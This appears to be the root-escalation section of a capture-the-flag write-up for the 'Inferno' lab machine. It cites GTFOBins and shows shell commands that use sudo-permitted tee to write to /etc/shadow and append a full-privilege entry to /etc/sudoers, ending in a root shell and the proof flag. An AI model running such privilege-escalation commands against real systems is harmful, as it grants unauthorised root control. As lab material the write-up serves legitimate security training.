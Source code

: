 <p>

- https://gtfobins.github.io/gtfobins/tee/?ref=g10s.io#sudo</p>

<img width="1328" height="334" alt="image" src="https://github.com/user-attachments/assets/9bb56027-c207-4f28-8b1d-b3c6e6589e71" />

<br>

```bash
dante@...:~$ ls -lah
total 72K
drwxr-xr-x 13 dante dante 4.0K Jan 11  2021 .
drwxr-xr-x  4 root  root  4.0K Sep  5 22:17 ..
lrwxrwxrwx  1 root  root     9 Jan 11  2021 .bash_history -> /dev/null
-rw-r--r--  1 dante dante  220 Apr  4  2018 .bash_logout
-rw-r--r--  1 dante dante 3.7K Apr  4  2018 .bashrc
drwx------  2 dante dante 4.0K Jan 11  2021 .cache
drwxr-x---  3 dante dante 4.0K Jan 11  2021 .config
drwxr-xr-x  2 root  root  4.0K Jan 11  2021 Desktop
drwxr-xr-x  2 root  root  4.0K Jan 11  2021 Documents
drwxr-xr-x  2 root  root  4.0K Jan 11  2021 Downloads
drwx------  4 dante dante 4.0K Jan 11  2021 .gnupg
-rw-------  1 dante dante   33 Jan 11  2021 local.txt
drwxr-xr-x  2 root  root  4.0K Jan 11  2021 Music
drwxr-xr-x  2 root  root  4.0K Jan 11  2021 Pictures
-rw-r--r--  1 dante dante  807 Apr  4  2018 .profile
drwxr-xr-x  2 root  root  4.0K Jan 11  2021 Public
-rw-r--r--  1 dante dante    0 Jan 11  2021 .sudo_as_admin_successful
drwxr-xr-x  2 root  root  4.0K Jan 11  2021 Templates
drwxr-xr-x  2 root  root  4.0K Jan 11  2021 Videos
-rw-------  1 dante dante  106 Jan 11  2021 .Xauthority
```

```bash
dante@...:~$ sudo /usr/bin/tee -a "/etc/shadow"
```

```bash
dante@...:~$ echo "dante    ALL=(ALL:ALL) ALL" | sudo tee -a "/etc/sudoers"
dante    ALL=(ALL:ALL) ALL
```

```bash
dante@...:~$ sudo -s
[sudo] password for dante: 
```

<h2>root</h2>

```bash
root@...:/home/dante# cd /root
root...:~# ls
proof.txt  snap
```

```bash
root@...:/home/dante# cat /root/proof.txt
Congrats!

You've rooted Inferno!

********************************

mindsflee
```
